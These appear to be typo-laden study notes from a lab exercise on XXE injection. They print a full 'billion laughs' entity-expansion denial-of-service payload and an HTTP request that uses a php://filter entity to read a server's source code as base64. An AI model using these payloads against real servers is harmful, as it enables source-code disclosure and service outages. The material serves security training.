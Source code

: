 - Other XXE attacks:
Another common attacj often carried out through XXE vulnerabilities is SSRF explotationm, which is used to enumerate locally open and access their pages, among other resticted web pages, though the XXE vulnerability. the Server-side attack module thoght covers SSRF, and the same tech
can be carreied with XXE attacks/
Finally, one common use of XXE attacks is causing a Denial of Service (DOS) to the hosting web server, with the use the following payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>

```
This payload defines the a0 entity as DOS, references it in a1 multiple times, references a1 in a2 and so on until the backend server memory out due to the self-refernces loops.
This attack no longer no longer work with modern web server as they protected againtst entity self-refernces.
Exercise:
1. Read code soruce with base64 filter:
```js
POST /submitDetails.php HTTP/1.1
Host: 10.129.101.192
Content-Length: 264
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.101.192
Referer: http://10.129.101.192/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
    <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
<root><name>Test</name>
<tel>01234566789</tel>
<email>&company;</email>
<message>Testing form</message>
</root>
```
```html
<!DOCTYPE html>
<html lang="en">

```